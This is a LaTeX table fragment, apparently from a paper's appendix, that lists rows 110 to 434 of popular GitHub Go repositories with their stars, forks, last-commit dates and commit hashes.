    110 &                                       esimov/caire &   9286 &    345 & 2020-05-14 &  8555afc75e \\
    111 &                                            cli/cli &   9025 &    365 & 2020-05-28 &  675cbbc2a4 \\
    112 &                                      asciimoo/wuzz &   8981 &    341 & 2020-01-28 &  f087795f72 \\
    113 &                                      evanw/esbuild &   8946 &    168 & 2020-05-28 &  9863668f2f \\
    114 &                                            rkt/rkt &   8883 &    863 & 2020-02-24 &  171c416fac \\
    115 &                                    Dreamacro/clash &   8880 &   1260 & 2020-05-28 &  3638b077cd \\
    116 &                                     go-redis/redis &   8861 &   1142 & 2020-05-26 &  a999d1ecd8 \\
    117 &                                      elastic/beats &   8852 &   3207 & 2020-05-28 &  df6f2169c5 \\
    118 &                                   snail007/goproxy &   8842 &   1792 & 2020-05-23 &  029cc0d002 \\
    119 &                                PuerkitoBio/goquery &   8836 &    698 & 2020-04-19 &  89946c829f \\
    120 &                                  golang/groupcache &   8725 &   1013 & 2020-05-21 &  8c9f03a8e5 \\
    121 &                                influxdata/telegraf &   8644 &   3493 & 2020-05-28 &  430854f6de \\
    122 &                                          ory/hydra &   8643 &    786 & 2020-05-28 &  70ab4fff18 \\
    123 &                                Netflix/chaosmonkey &   8626 &    629 & 2019-10-07 &  68e3282ef7 \\
    124 &                            docker-slim/docker-slim &   8620 &    294 & 2020-05-24 &  79490f5f1c \\
    125 &                        grpc-ecosystem/grpc-gateway &   8523 &   1119 & 2020-05-28 &  0a916456be \\
    126 &                                         rakyll/hey &   8414 &    634 & 2020-05-26 &  f3676ef133 \\
    127 &                                       jmoiron/sqlx &   8394 &    658 & 2020-05-26 &  ee514944af \\
    128 &                                     dinedal/textql &   8359 &    285 & 2020-02-03 &  1d6fef53e0 \\
    129 &                                     emirpasic/gods &   8352 &    955 & 2020-04-04 &  80e934ed68 \\
    130 &                                    git-lfs/git-lfs &   8213 &   1560 & 2020-05-27 &  7dfe9fe110 \\
    131 &                             gravitational/teleport &   8112 &    622 & 2020-05-28 &  4bc0346518 \\
    132 &                                       cyfdecyf/cow &   8074 &   1644 & 2019-08-09 &  41c0fb157c \\
    133 &                                        micro/micro &   8041 &    683 & 2020-05-28 &  d607618d5b \\
    134 &                                          apex/apex &   8024 &    588 & 2020-04-28 &  16c08f0eb3 \\
    135 &                                  Masterminds/glide &   8004 &    538 & 2020-04-07 &  b94b39d657 \\
    136 &                                      sqshq/sampler &   8003 &    385 & 2020-02-04 &  1af22f6bfd \\
    137 &                               kubernetes/dashboard &   7882 &   2214 & 2020-05-28 &  cd7a6156b1 \\
    138 &                                nats-io/nats-server &   7757 &    762 & 2020-05-28 &  f859edaf4f \\
    139 &                                            apex/up &   7753 &    314 & 2020-04-11 &  5777a4ff5f \\
    140 &                                      github/gh-ost &   7734 &    768 & 2020-05-18 &  4dab06e92b \\
    141 &                                   json-iterator/go &   7702 &    627 & 2020-05-18 &  55287ed53a \\
    142 &                                   dgraph-io/badger &   7702 &    615 & 2020-05-28 &  00b86b2e74 \\
    143 &                                   dgrijalva/jwt-go &   7697 &    699 & 2020-05-13 &  dc14462fd5 \\
    144 &                           kubernetes/ingress-nginx &   7693 &   3667 & 2020-05-28 &  f6f695e7a1 \\
    145 &                                        flynn/flynn &   7625 &    567 & 2020-05-28 &  755c95684f \\
    146 &                                         go-chi/chi &   7525 &    503 & 2020-05-26 &  5704d7ee98 \\
    147 &                              future-architect/vuls &   7505 &    827 & 2020-05-27 &  835dc08049 \\
    148 &                                         andlabs/ui &   7487 &    674 & 2020-05-05 &  867a9e5a49 \\
    149 &                                   openshift/origin &   7466 &   4288 & 2020-05-28 &  1bc7b9e328 \\
    150 &                                    gomodule/redigo &   7428 &   1065 & 2020-05-26 &  2eadaa0e59 \\
    151 &                                     ahmetb/kubectx &   7413 &    501 & 2020-05-25 &  401188fefd \\
    152 &                                       therecipe/qt &   7393 &    543 & 2020-01-26 &  5074eb6d8c \\
    153 &                                      talk-go/night &   7386 &    711 & 2020-05-13 &  cdd02dcd04 \\
    154 &                               ardanlabs/gotraining &   7350 &   1503 & 2020-05-21 &  86a37cbcfd \\
    155 &                                bettercap/bettercap &   7293 &    745 & 2020-05-15 &  6725a2aa53 \\
    156 &                 unknwon/go-fundamental-programming &   7272 &   1884 & 2019-11-13 &  5542bcd8fd \\
    157 &                                          rook/rook &   7208 &   1472 & 2020-05-28 &  ff90fa7098 \\
    158 &                                sjwhitworth/golearn &   7199 &   1009 & 2020-03-09 &  3e43e74895 \\
    159 &                                    attic-labs/noms &   7194 &    266 & 2020-05-19 &  39057233bf \\
    160 &                                    google/go-cloud &   7052 &    544 & 2020-05-27 &  bee021b0e3 \\
    161 &                               claudiodangelis/qrcp &   7018 &    411 & 2020-05-28 &  c6b4c7454b \\
    162 &                              kelseyhightower/confd &   6992 &   1178 & 2020-03-16 &  cccd334562 \\
    163 &                                opencontainers/runc &   6929 &   1297 & 2020-05-28 &  4f0bdafc8a \\
    164 &                                     tidwall/tile38 &   6883 &    413 & 2020-05-20 &  9c6be0f78e \\
    165 &                                     keybase/client &   6870 &    956 & 2020-05-27 &  9e24cdae97 \\
    166 &                                      cjbassi/gotop &   6819 &    272 & 2020-05-24 &  61ed1ad0c3 \\
    167 &                                      casbin/casbin &   6819 &    755 & 2020-05-28 &  3df797354a \\
    168 &                                       derailed/k9s &   6805 &    365 & 2020-05-28 &  68da73952e \\
    169 &                            filebrowser/filebrowser &   6794 &   1058 & 2020-05-27 &  6e5405eeed \\
    170 &              polaris1119/The-Golang-Standard\ldots &   6783 &   1644 & 2020-02-01 &  802818f4f3 \\
    171 &                                     urfave/negroni &   6666 &    540 & 2020-05-25 &  e1cd4e5018 \\
    172 &                                    golang/protobuf &   6663 &   1248 & 2020-05-14 &  d04d7b157b \\
    173 &                         shadowsocks/shadowsocks-go &   6662 &   3577 & 2020-04-09 &  3e585ff906 \\
    174 &                                 tylertreat/comcast &   6649 &    296 & 2020-05-07 &  36c754a9a7 \\
    175 &                                         quay/clair &   6650 &    840 & 2020-05-28 &  db2e7d5c0c \\
    176 &                                  blevesearch/bleve &   6586 &    506 & 2020-05-26 &  2b80a2aedf \\
    177 &                                  gdrive-org/gdrive &   6582 &    834 & 2020-01-16 &  8e12e1c1c9 \\
    178 &                                      loadimpact/k6 &   6567 &    372 & 2020-05-28 &  479707f90e \\
    179 &                                   usefathom/fathom &   6479 &    287 & 2020-05-08 &  69baac5c4a \\
    180 &                                  hybridgroup/gobot &   6469 &    815 & 2020-05-13 &  9d38858276 \\
    181 &                                    mailhog/MailHog &   6455 &    457 & 2020-05-12 &  d70a557574 \\
    182 &                                          dapr/dapr &   6447 &    380 & 2020-05-28 &  592af5afb9 \\
    183 &                                      tidwall/gjson &   6424 &    420 & 2020-04-20 &  f042915ca1 \\
    184 &                                henrylee2cn/pholcus &   6423 &   1581 & 2020-02-15 &  bf4a87b9aa \\
    185 &                                 graphql-go/graphql &   6419 &    551 & 2020-05-19 &  116f19d099 \\
    186 &                                     sosedoff/pgweb &   6398 &    468 & 2020-05-09 &  111b1720b4 \\
    187 &                                     tomnomnom/gron &   6383 &    137 & 2019-10-26 &  602235e754 \\
    188 &                                      fabiolb/fabio &   6355 &    555 & 2020-05-08 &  c034d4fae1 \\
    189 &                                   jroimartin/gocui &   6324 &    404 & 2020-05-13 &  c055c87ae8 \\
    190 &                                  tinygo-org/tinygo &   6305 &    298 & 2020-05-28 &  a9ba6ebad9 \\
    191 &                     360EntSecGroup-Skylar/excelize &   6301 &    685 & 2020-05-28 &  2ae631376b \\
    192 &                                      inlets/inlets &   6295 &    351 & 2020-05-17 &  ae73b7d20d \\
    193 &                                     schachmat/wego &   6291 &    396 & 2020-05-26 &  994e4f1417 \\
    194 &                                  linuxkit/linuxkit &   6276 &    791 & 2020-05-24 &  9d5a22d44a \\
    195 &                                      direnv/direnv &   6249 &    324 & 2020-05-26 &  1cf67502b5 \\
    196 &                               crawlab-team/crawlab &   6245 &    853 & 2020-05-28 &  d75a993121 \\
    197 &                                    hashicorp/nomad &   6207 &   1078 & 2020-05-28 &  5be192fac3 \\
    198 &                                        XiaoMi/soar &   6138 &    894 & 2020-04-30 &  078704875f \\
    199 &                                    coredns/coredns &   6075 &   1017 & 2020-05-27 &  bc2ba28865 \\
    200 &                                       go-xorm/xorm &   6044 &    763 & 2020-04-03 &  f39e5d9bfd \\
    201 &                                        robfig/cron &   6029 &    975 & 2020-05-18 &  6a8421bcff \\
    202 &                            DNSCrypt/dnscrypt-proxy &   6017 &    579 & 2020-05-28 &  3d5f877058 \\
    203 &                                        cheat/cheat &   5970 &    619 & 2020-05-15 &  8e602b0e93 \\
    204 &                        GoogleContainerTools/kaniko &   5962 &    582 & 2020-05-27 &  e0f93578b6 \\
    205 &                                             lib/pq &   5922 &    735 & 2020-05-26 &  d408f9c948 \\
    206 &                        GoesToEleven/GolangTraining &   5918 &   2303 & 2020-05-14 &  afa19f5c43 \\
    207 &                                     docker/machine &   5895 &   1708 & 2020-05-21 &  b170508bf4 \\
    208 &                                          peco/peco &   5891 &    188 & 2020-05-27 &  9c4464680c \\
    209 &                                         rancher/os &   5885 &    606 & 2020-05-22 &  2ec7f4fc9e \\
    210 &                                      rqlite/rqlite &   5884 &    322 & 2020-05-13 &  5f762f01ec \\
    211 &                            open-falcon/falcon-plus &   5874 &   1332 & 2020-04-10 &  850e7f79d4 \\
    212 &                                            xo/usql &   5871 &    195 & 2020-05-27 &  bdff722f7b \\
    213 &                               zricethezav/gitleaks &   5871 &    470 & 2020-05-24 &  e0f6399d5c \\
    214 &                                   weaveworks/weave &   5840 &    577 & 2020-05-28 &  0d4099bba5 \\
    215 &                                docker/classicswarm &   5837 &   1137 & 2020-03-31 &  613bdb260e \\
    216 &                                   google/go-github &   5832 &   1283 & 2020-05-28 &  a86f060e61 \\
    217 &                              containrrr/watchtower &   5832 &    365 & 2020-05-28 &  cd21516709 \\
    218 &                               teh-cmc/go-internals &   5831 &    253 & 2019-11-20 &  dd22691012 \\
    219 &                                     aws/aws-sdk-go &   5811 &   1476 & 2020-05-28 &  645efefb5b \\
    220 &                                     Shopify/sarama &   5806 &   1047 & 2020-05-27 &  b5764af1c4 \\
    221 &                                   thanos-io/thanos &   5793 &    777 & 2020-05-28 &  63ef382fc3 \\
    222 &                                         pkg/errors &   5792 &    419 & 2020-05-10 &  614d223910 \\
    223 &                                  kubeless/kubeless &   5742 &    586 & 2020-04-07 &  78d3cedd20 \\
    224 &                                      pulumi/pulumi &   5727 &    299 & 2020-05-28 &  45e1917a30 \\
    225 &                                      ginuerzh/gost &   5726 &   1101 & 2020-05-25 &  2707a8f0a9 \\
    226 &                              jetstack/cert-manager &   5671 &   1001 & 2020-05-28 &  78ee463a98 \\
    227 &                              containerd/containerd &   5656 &   1169 & 2020-05-28 &  8e9ba8376e \\
    228 &                                        tools/godep &   5640 &    478 & 2018-04-12 &  ce0bfadeb5 \\
    229 &                             smartystreets/goconvey &   5627 &    425 & 2020-04-26 &  505e419363 \\
    230 &                              goreleaser/goreleaser &   5622 &    398 & 2020-05-28 &  c31cc85cb2 \\
    231 &                                  gobuffalo/buffalo &   5598 &    440 & 2020-05-28 &  b30b19999a \\
    232 &                          Workiva/go-datastructures &   5598 &    654 & 2020-03-21 &  0819bcaf26 \\
    233 &                                      argoproj/argo &   5583 &    909 & 2020-05-28 &  09092147cf \\
    234 &                                   linkerd/linkerd2 &   5574 &    541 & 2020-05-28 &  9a02e0d300 \\
    235 &                                      gofiber/fiber &   5566 &    199 & 2020-05-28 &  38c8bb240d \\
    236 &                               kubernetes-sigs/kind &   5557 &    619 & 2020-05-28 &  94031cdb85 \\
    237 &                                         simeji/jid &   5554 &    114 & 2019-03-31 &  be32ff3178 \\
    238 &                                         nektos/act &   5552 &    136 & 2020-05-27 &  39667011b8 \\
    239 &                                        cdr/sshcode &   5516 &    213 & 2020-05-18 &  50e859cd10 \\
    240 &                                      upspin/upspin &   5514 &    271 & 2020-04-20 &  5ddde7b8e6 \\
    241 &                                      cilium/cilium &   5501 &    626 & 2020-05-28 &  9b0ae85b5f \\
    242 &                                     slackhq/nebula &   5487 &    308 & 2020-05-28 &  ff13aba8fc \\
    243 &                                TykTechnologies/tyk &   5475 &    719 & 2020-05-28 &  ce0ee257b6 \\
    244 &                          kubernetes-sigs/kustomize &   5475 &    985 & 2020-05-28 &  c1a2bf14da \\
    245 &                           erroneousboat/slack-term &   5446 &    183 & 2020-05-05 &  c19c20a3e5 \\
    246 &                                     coreos/flannel &   5406 &   1665 & 2020-05-13 &  485649719b \\
    247 &                                       zserge/lorca &   5387 &    236 & 2020-03-01 &  a3e43396a4 \\
    248 &                              photoprism/photoprism &   5386 &    320 & 2020-05-28 &  a77b2431d3 \\
    249 &                            go-playground/validator &   5355 &    478 & 2020-05-28 &  ea924ce89a \\
    250 &                             golangci/golangci-lint &   5347 &    483 & 2020-05-26 &  71b2f04e88 \\
    251 &                                  robertkrimen/otto &   5343 &    469 & 2020-05-14 &  c382bd3c16 \\
    252 &                                 filhodanuvem/gitql &   5330 &    140 & 2019-11-11 &  875d794ca2 \\
    253 &                                docker/distribution &   5326 &   1758 & 2020-05-27 &  742aab907b \\
    254 &                             yeasy/blockchain\_guide &   5311 &   1716 & 2020-04-29 &  c4d54e552c \\
    255 &                                     adnanh/webhook &   5281 &    437 & 2020-05-23 &  345bf3d409 \\
    256 &                                   cloudflare/cfssl &   5272 &    705 & 2020-05-27 &  6b49beae21 \\
    257 &                                     gcla/termshark &   5229 &    231 & 2020-05-09 &  32a152f537 \\
    258 &                                        go-ego/riot &   5228 &    367 & 2020-04-09 &  a6e6be1c36 \\
    259 &                                 kubernetes/kompose &   5211 &    438 & 2020-05-25 &  6b018fab7b \\
    260 &                                    flike/kingshard &   5187 &   1039 & 2020-05-27 &  e5cad209c4 \\
    261 &                              go-swagger/go-swagger &   5181 &    817 & 2020-05-14 &  c1166eb277 \\
    262 &                                    fission/fission &   5136 &    477 & 2020-05-28 &  9dd084810f \\
    263 &                                       src-d/go-git &   5052 &    563 & 2020-04-06 &  8b0c2116ce \\
    264 &                                    olivere/elastic &   5031 &    902 & 2020-05-13 &  639b7f6e0c \\
    265 &                                      google/seesaw &   5027 &    471 & 2020-05-28 &  2a7e69077c \\
    266 &                                 kardianos/govendor &   5019 &    402 & 2020-03-02 &  e31350db97 \\
    267 &                                  tektoncd/pipeline &   5016 &    823 & 2020-05-28 &  cc724c8a79 \\
    268 &                           yinghuocho/firefly-proxy &   4988 &    933 & 2018-11-14 &  69c2bd0414 \\
    269 &                                          akavel/up &   4968 &    100 & 2020-04-12 &  5786314a2b \\
    270 &                             dragonflyoss/Dragonfly &   4961 &    656 & 2020-05-28 &  e8a651459f \\
    271 &                                 bitly/oauth2\_proxy &   4953 &   1173 & 2019-02-04 &  fa2771998a \\
    272 &                                concourse/concourse &   4934 &    606 & 2020-05-28 &  82a76b6492 \\
    273 &                                    shirou/gopsutil &   4931 &    880 & 2020-05-28 &  42aec722ba \\
    274 &                                     hashicorp/serf &   4921 &    504 & 2020-05-05 &  5642cc7572 \\
    275 &                                    ponzu-cms/ponzu &   4906 &    327 & 2020-04-13 &  9bc41b7031 \\
    276 &                                         nsf/gocode &   4865 &    665 & 2020-05-28 &  5bee97b488 \\
    277 &                                  cortexlabs/cortex &   4859 &    380 & 2020-05-28 &  aae3ff7800 \\
    278 &                                    perkeep/perkeep &   4828 &    365 & 2020-03-11 &  c2e31370dd \\
    279 &                                        rakyll/boom &   4814 &    347 & 2016-09-02 &  e99ce27f08 \\
    280 &                                        fluxcd/flux &   4812 &    850 & 2020-05-28 &  3b40b58dfd \\
    281 &                                          Jguer/yay &   4809 &    180 & 2020-05-28 &  db3993b83b \\
    282 &                                cloudreve/Cloudreve &   4774 &    925 & 2020-05-24 &  14f5982b47 \\
    283 &                                  chromedp/chromedp &   4765 &    414 & 2020-05-25 &  3976e2ae9c \\
    284 &                                       schollz/find &   4747 &    357 & 2020-05-13 &  b69e6fd241 \\
    285 &                                      gotify/server &   4741 &    225 & 2020-05-28 &  93b30c5c44 \\
    286 &                            OpenDiablo2/OpenDiablo2 &   4721 &    314 & 2020-05-08 &  515b66736d \\
    287 &                                davecheney/httpstat &   4698 &    245 & 2018-10-24 &  474bdf475e \\
    288 &                                    gophish/gophish &   4684 &    840 & 2020-05-26 &  ec8b17238e \\
    289 &                                   fiorix/freegeoip &   4665 &    764 & 2020-01-22 &  4693d60f74 \\
    290 &                                 inancgumus/learngo &   4661 &    535 & 2020-05-28 &  65e854c4ae \\
    291 &                                    appleboy/gorush &   4642 &    512 & 2020-05-27 &  6bad4797b4 \\
    292 &                                     smallnest/rpcx &   4640 &    766 & 2020-05-22 &  57cd85a346 \\
    293 &                           prometheus/node\_exporter &   4603 &   1158 & 2020-05-26 &  b9c96706a7 \\
    294 &                                      wallix/awless &   4600 &    232 & 2020-05-26 &  44e892b496 \\
    295 &                                          miekg/dns &   4597 &    748 & 2020-05-27 &  203ad2480b \\
    296 &                                       fnproject/fn &   4595 &    345 & 2020-04-23 &  d55e01ab7d \\
    297 &                                        pion/webrtc &   4587 &    510 & 2020-05-28 &  4618922011 \\
    298 &                              facebookarchive/grace &   4561 &    362 & 2019-02-13 &  75cf193824 \\
    299 &                           google/battery-historian &   4556 &    823 & 2019-07-15 &  d2356ba4fd \\
    300 &                                  containers/libpod &   4549 &    539 & 2020-05-28 &  e8818ced80 \\
    301 &                                  Shopify/toxiproxy &   4547 &    252 & 2020-04-30 &  10f0561d74 \\
    302 &                                michenriksen/gitrob &   4543 &    658 & 2020-05-21 &  7be4c5306a \\
    303 &                                         dexidp/dex &   4536 &    964 & 2020-05-26 &  0a9f56527e \\
    304 &                                           lxn/walk &   4523 &    668 & 2020-05-12 &  55ccb3a9f5 \\
    305 &                                   99designs/gqlgen &   4479 &    441 & 2020-05-22 &  40570d1b4d \\
    306 &                               lightningnetwork/lnd &   4468 &   1263 & 2020-05-28 &  703e8acb36 \\
    307 &                                       fogleman/nes &   4465 &    393 & 2020-04-23 &  c94772f158 \\
    308 &                                  fsnotify/fsnotify &   4459 &    518 & 2020-05-07 &  7f4cf4dd2b \\
    309 &                                MichaelMure/git-bug &   4456 &    144 & 2020-05-25 &  5029cc1e76 \\
    310 &                                     muesli/beehive &   4435 &    220 & 2020-05-22 &  86804e3b1e \\
    311 &                            mongodb/mongo-go-driver &   4434 &    498 & 2020-05-28 &  0c7911fa65 \\
    312 &                                            qor/qor &   4416 &    634 & 2020-02-24 &  457d2e3f50 \\
    313 &                                pachyderm/pachyderm &   4410 &    417 & 2020-05-28 &  2969188a6c \\
    314 &                             golang-migrate/migrate &   4407 &    437 & 2020-05-27 &  7236e82911 \\
    315 &                                        google/gxui &   4403 &    303 & 2019-02-05 &  f85e0a97b3 \\
    316 &                             jpillora/cloud-torrent &   4373 &   1453 & 2020-04-07 &  1a741e3d8d \\
    317 &                               russross/blackfriday &   4370 &    533 & 2020-03-25 &  abb995c466 \\
    318 &                                   weaveworks/scope &   4354 &    554 & 2020-05-26 &  bf90d56f0c \\
    319 &                                       mozilla/sops &   4343 &    292 & 2020-05-27 &  4bc27f6eb7 \\
    320 &                             gliderlabs/registrator &   4335 &    854 & 2020-05-24 &  4322fe0030 \\
    321 &                                         rivo/tview &   4324 &    258 & 2020-05-28 &  fe95322038 \\
    322 &                             centrifugal/centrifugo &   4312 &    376 & 2020-05-28 &  3cffbd1c8e \\
    323 &                                   docker/docker-ce &   4309 &   1129 & 2020-05-28 &  f3673004e3 \\
    324 &                         coreos/prometheus-operator &   4303 &   1949 & 2020-05-28 &  b0ab8afe43 \\
    325 &                                     uber/prototool &   4266 &    242 & 2020-05-19 &  a6d064684c \\
    326 &                                  spiral/roadrunner &   4254 &    223 & 2020-05-25 &  af2b441928 \\
    327 &         terraform-providers/terraform-provider-aws &   4251 &   3966 & 2020-05-28 &  64fd8eb362 \\
    328 &                                    coyove/goflyway &   4245 &    692 & 2020-02-05 &  dfffaed0d1 \\
    329 &                                   adonovan/gopl.io &   4237 &   1666 & 2020-05-05 &  65c318dde9 \\
    330 &                                      alibaba/pouch &   4227 &    945 & 2020-04-22 &  6ef73ce06b \\
    331 &                         eranyanay/1m-go-websockets &   4215 &    389 & 2020-03-13 &  6758771e40 \\
    332 &                                        tealeg/xlsx &   4213 &    676 & 2020-05-16 &  d2b2b0d0a4 \\
    333 &                                     Terry-Mao/goim &   4209 &   1181 & 2020-03-17 &  a8942503cb \\
    334 &                             asaskevich/govalidator &   4197 &    416 & 2020-05-06 &  21a406dcc5 \\
    335 &                                google/git-appraise &   4180 &    131 & 2020-05-14 &  e9b94fd0f2 \\
    336 &                                       tidwall/evio &   4176 &    328 & 2020-04-06 &  399d938449 \\
    337 &                                        golang/mock &   4176 &    344 & 2020-05-25 &  92f53b0a56 \\
    338 &                              geektutu/7days-golang &   4155 &    458 & 2020-05-16 &  689a6d01b7 \\
    339 &                                      golang/mobile &   4143 &    514 & 2020-05-15 &  4c31acba00 \\
    340 &                                  MontFerret/ferret &   4135 &    209 & 2020-05-27 &  94f13c66af \\
    341 &                               mmcgrana/gobyexample &   4122 &    817 & 2020-05-07 &  448c597a58 \\
    342 &                              RichardKnop/machinery &   4109 &    528 & 2020-05-25 &  6d3fd3e756 \\
    343 &                            AdguardTeam/AdGuardHome &   4095 &    461 & 2020-05-28 &  32d1f385ff \\
    344 &                             lucas-clemente/quic-go &   4079 &    476 & 2020-05-28 &  85c19fbb5a \\
    345 &                                 gaia-pipeline/gaia &   4065 &    189 & 2020-05-28 &  2654f288c7 \\
    346 &                                       golang/tools &   4063 &   1430 & 2020-05-28 &  6be401e3f7 \\
    347 &                                     twitchtv/twirp &   4058 &    196 & 2020-05-25 &  20edcc73bb \\
    348 &                                        google/gops &   4053 &    234 & 2020-05-28 &  ccffbf8d4a \\
    349 &                                       go-acme/lego &   4043 &    539 & 2020-05-28 &  7c3689d08a \\
    350 &                                   lifei6671/mindoc &   4037 &   1159 & 2020-05-16 &  b7d8de8e93 \\
    351 &                                       go-yaml/yaml &   4031 &    678 & 2020-05-12 &  0b1645d91e \\
    352 &                                gliderlabs/logspout &   4020 &    646 & 2020-05-08 &  301ffe1253 \\
    353 &                                vmware-tanzu/octant &   3979 &    265 & 2020-05-28 &  ec4170daf8 \\
    354 &                              EasyDarwin/EasyDarwin &   3972 &   1668 & 2020-04-29 &  8637f73e52 \\
    355 &                                    jpillora/chisel &   3968 &    468 & 2020-05-20 &  5271d7b062 \\
    356 &                      go-flutter-desktop/go-flutter &   3964 &    202 & 2020-05-25 &  cc310c12f7 \\
    357 &                                  goproxyio/goproxy &   3962 &    252 & 2020-04-28 &  ead1140c92 \\
    358 &                                 aquasecurity/trivy &   3933 &    337 & 2020-05-28 &  78b7529172 \\
    359 &                                    shazow/ssh-chat &   3925 &    322 & 2020-05-01 &  3c4d90cfc1 \\
    360 &                          hashicorp/consul-template &   3914 &    579 & 2020-05-16 &  b7641ebcd3 \\
    361 &                             gruntwork-io/terratest &   3913 &    521 & 2020-05-28 &  16f2895ca3 \\
    362 &                                     microsoft/ethr &   3912 &    237 & 2020-02-26 &  c1ace168b8 \\
    363 &                                        onsi/ginkgo &   3903 &    376 & 2020-05-28 &  9304a8cd49 \\
    364 &                                vmware-tanzu/velero &   3903 &    614 & 2020-05-28 &  e7b668af2a \\
    365 &                                        Azure/draft &   3900 &    414 & 2020-04-05 &  3206e97af5 \\
    366 &                                    aelsabbahy/goss &   3898 &    335 & 2020-05-28 &  06495afc9d \\
    367 &                                 patrickmn/go-cache &   3889 &    509 & 2020-05-28 &  46f4078530 \\
    368 &                                   allegro/bigcache &   3877 &    319 & 2020-05-07 &  ccdbc60304 \\
    369 &                                  dropbox/godropbox &   3871 &    395 & 2020-02-28 &  52ad444d35 \\
    370 &                            gruntwork-io/terragrunt &   3868 &    504 & 2020-05-28 &  c7694a5534 \\
    371 &                                      btcsuite/btcd &   3868 &   1308 & 2020-05-27 &  9f0179fd2c \\
    372 &                                    davecgh/go-spew &   3868 &    246 & 2020-04-24 &  d8f796af33 \\
    373 &                                    FiloSottile/age &   3860 &    114 & 2020-05-20 &  c9a35c0727 \\
    374 &                                   cookieY/Yearning &   3857 &   1206 & 2020-04-27 &  4cf2b0c92b \\
    375 &                                 contribsys/faktory &   3857 &    160 & 2020-05-20 &  1d78910fd1 \\
    376 &                                travisjeffery/jocko &   3857 &    274 & 2020-04-27 &  06647921b3 \\
    377 &                                  HFO4/gameboy.live &   3851 &    174 & 2019-09-10 &  ddfaa9ce46 \\
    378 &                                        gonum/gonum &   3848 &    306 & 2020-05-28 &  5f68e0b712 \\
    379 &                                      goadesign/goa &   3828 &    433 & 2020-05-26 &  05b00660da \\
    380 &                                      schollz/find3 &   3810 &    267 & 2020-05-13 &  601134997e \\
    381 &                                       motemen/gore &   3796 &    133 & 2020-05-07 &  90b551f3a0 \\
    382 &                                           go-pg/pg &   3791 &    288 & 2020-05-28 &  7aa4fb28bf \\
    383 &                                       elves/elvish &   3785 &    230 & 2020-05-28 &  8af7608382 \\
    384 &                              uber-archive/go-torch &   3774 &    217 & 2018-11-07 &  86f327cc82 \\
    385 &                                     nsf/termbox-go &   3772 &    315 & 2020-04-18 &  38ba6e5628 \\
    386 &                       sql-machine-learning/sqlflow &   3772 &    566 & 2020-05-28 &  bd1d181fbc \\
    387 &                                      gogo/protobuf &   3771 &    495 & 2020-05-17 &  5628607bb4 \\
    388 &                                emicklei/go-restful &   3762 &    576 & 2020-05-25 &  7c2556bbbf \\
    389 &                                        google/wire &   3757 &    189 & 2020-05-24 &  978b7803d3 \\
    390 &                                       uber/cadence &   3753 &    341 & 2020-05-28 &  a1a14830e4 \\
    391 &                                      tj/node-prune &   3739 &     91 & 2020-05-28 &  1159d4cac8 \\
    392 &                                    elazarl/goproxy &   3735 &    732 & 2020-05-17 &  49ad98f6da \\
    393 &                                      mitchellh/gox &   3734 &    287 & 2020-02-13 &  d8caaff5a9 \\
    394 &                                   syndtr/goleveldb &   3728 &    551 & 2020-05-28 &  758128399b \\
    395 &                                     satori/go.uuid &   3717 &    496 & 2020-05-01 &  b2ce2384e1 \\
    396 &                           maxence-charriere/go-app &   3713 &    173 & 2020-05-15 &  157b232cd2 \\
    397 &                                      wercker/stern &   3709 &    188 & 2020-04-03 &  4fa46dd698 \\
    398 &                                        rgburke/grv &   3698 &     90 & 2019-05-01 &  cffa246f92 \\
    399 &                               jpmorganchase/quorum &   3689 &    991 & 2020-05-18 &  282b74045a \\
    400 &                                    tophubs/TopList &   3686 &    688 & 2020-05-06 &  04cfb28f8a \\
    401 &                                  alexflint/gallium &   3674 &    137 & 2018-10-23 &  29fad37751 \\
    402 &                                     oxequa/realize &   3660 &    192 & 2020-05-11 &  498ce46d1b \\
    403 &                                 getlantern/lantern &   3629 &  10622 & 2020-05-22 &  08fd2e3f22 \\
    404 &                                     knadh/listmonk &   3625 &    169 & 2020-05-26 &  82702ed5bc \\
    405 &                                     panjf2000/ants &   3624 &    456 & 2020-05-28 &  a195593eb7 \\
    406 &                              tendermint/tendermint &   3615 &   1115 & 2020-05-28 &  75e19f99ea \\
    407 &                                     huichen/wukong &   3612 &    779 & 2019-08-21 &  d014a1f19d \\
    408 &                                        kashav/fsql &   3605 &    105 & 2019-07-27 &  aea2c2b0fa \\
    409 &                                 jwilder/docker-gen &   3596 &    499 & 2020-04-02 &  4edc190faa \\
    410 &                                  fanpei91/torsniff &   3595 &    897 & 2020-01-11 &  e81c707828 \\
    411 &                                        zenazn/goji &   3588 &    242 & 2019-06-02 &  a16712d37b \\
    412 &                            sourcegraph/sourcegraph &   3588 &    365 & 2020-05-28 &  32f87ec190 \\
    413 &                                   gchaincl/httplab &   3569 &    119 & 2019-06-05 &  ddfb5124d4 \\
    414 &                            alecthomas/gometalinter &   3560 &    282 & 2019-03-07 &  32416ab753 \\
    415 &                                     hashicorp/raft &   3557 &    473 & 2020-05-28 &  c95aa91e60 \\
    416 &                               openark/orchestrator &   3556 &    573 & 2020-05-27 &  76c0a52560 \\
    417 &                                   jung-kurt/gofpdf &   3535 &    438 & 2019-11-19 &  a2a0e7f8a2 \\
    418 &                                      name5566/leaf &   3533 &    969 & 2020-05-16 &  8592b1abbb \\
    419 &                                       OWASP/Go-SCP &   3531 &    235 & 2020-05-19 &  e152aab8cb \\
    420 &                                        golang/lint &   3518 &    474 & 2020-03-20 &  738671d388 \\
    421 &                                    yuin/gopher-lua &   3503 &    385 & 2020-05-26 &  6ff375d91e \\
    422 &                                       jenkins-x/jx &   3490 &    666 & 2020-05-28 &  a3f8cdf623 \\
    423 &                                  anacrolix/torrent &   3489 &    413 & 2020-05-24 &  c7ea314de0 \\
    424 &                                99designs/aws-vault &   3489 &    302 & 2020-05-22 &  83ed01d1d1 \\
    425 &                                  imgproxy/imgproxy &   3485 &    243 & 2020-05-25 &  3dcaeedd45 \\
    426 &                             googollee/go-socket.io &   3481 &    570 & 2020-04-06 &  88e44eae2d \\
    427 &                    operator-framework/operator-sdk &   3477 &   1002 & 2020-05-28 &  d1dbfc8336 \\
    428 &                                      tilt-dev/tilt &   3472 &    113 & 2020-05-28 &  9b58b81e77 \\
    429 &                                   buger/jsonparser &   3468 &    296 & 2020-05-28 &  277c1bf2e4 \\
    430 &                                        fatih/color &   3468 &    418 & 2020-02-10 &  daf2830f27 \\
    431 &                                       google/pprof &   3460 &    299 & 2020-05-28 &  427632fa3b \\
    432 &                                  ro31337/libretaxi &   3459 &    799 & 2020-03-05 &  64b7e21086 \\
    433 &                                    gomatcha/matcha &   3456 &    147 & 2018-09-13 &  d2dd1c5db1 \\
    434 &                              open-policy-agent/opa &   3450 &    404 & 2020-05-28 &  b00f6aac6c \\
